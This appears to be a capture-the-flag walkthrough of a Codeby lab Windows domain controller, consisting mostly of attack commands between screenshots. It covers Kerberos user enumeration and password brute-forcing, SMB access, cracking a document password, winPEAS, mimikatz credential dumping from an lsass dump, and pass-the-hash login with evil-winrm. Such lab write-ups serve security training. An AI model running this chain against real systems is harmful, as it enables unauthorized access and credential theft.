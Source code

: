![image](https://github.com/stensil4rt/CodeBy/assets/62753044/c16212f1-d41a-4d2b-a75a-691ecc0b5fe8)
```
nmap -p- 192.168.2.6 -v -sC -sV
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/d7b61cca-0808-4a02-ab7c-560608ea7f29)
```
enum4linux-ng 192.168.2.6
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/bd453887-4dea-4225-9bde-d773b70e44ad)
```
./kerbrute_linux_amd64 userenum -d codeby.cdb --dc 192.168.2.6 /home/kali/PayloadsAllTheThings/SecLists/SecLists/Usernames/xato-net-10-million-usernames.txt
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/941e6f33-2a43-40df-bdf1-511c56f6a494)
```
./kerbrute_linux_amd64 bruteuser -d codeby.cdb --dc 192.168.2.6 /home/kali/PayloadsAllTheThings/SecLists/SecLists/Passwords/xato-net-10-million-passwords-10000.txt ekaterina
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/8035c75c-d20f-4708-83b9-df86047e220a)
```
enum4linux-ng 192.168.2.6 -u 'ekaterina' -p 'ekaterina'
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/24d96388-7794-41b7-9e51-8470c4dec474)
```
smbmap -u "ekaterina" -p "ekaterina" -d codeby.cdb -H 192.168.2.6
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/f120e4b2-c956-4931-bf30-571290b37ac1)
```
smbclient //192.168.2.6/Ekaterina -U ekaterina
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/3c3a1463-1afb-4b0b-a082-19dedf55245a)
```
office2john confidental.docx > hash.txt
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/2dd71b05-1859-4077-80c0-f9bbd6130c9e)
```
john --wordlist=/home/kali/PayloadsAllTheThings/rockyou.txt hash.txt
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/bdd4cc23-4bf3-4758-8517-39ff59e2c009)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/4ca25d04-9f63-41fc-81e9-67b453f73b1f)

```
evil-winrm -i 192.168.2.6 -u a.gusev -p PASS
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/21b7a047-2c2a-4acf-8ce9-40963bd38006)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/9be9c7c3-539a-4892-84bf-68fa22459e4f)
```
./winPEASx64.exe
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/3ff5fb9d-e967-4246-ad95-60f10c375f16)

https://github.com/ParrotSec/mimikatz

https://book.hacktricks.xyz/windows-hardening/stealing-credentials/credentials-mimikatz

Спасибо @Alex_Gubich

```
.\mimikatz.exe "sekurlsa::minidump C:\Users\a.gusev\AppData\Local\Microsoft\Windows\lsass.dmp" "sekurlsa::logonPasswords" "exit"
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/e94d1e30-12f2-4784-93ad-eac13c0e0a39)

```
evil-winrm -i 192.168.2.6 -u exited3n -H NTLM_HASH
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/b7db4e0d-d59d-4767-a31e-fb72eb208fe1)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/6f3d0cfc-9f51-44a0-a619-d237e9ece127)

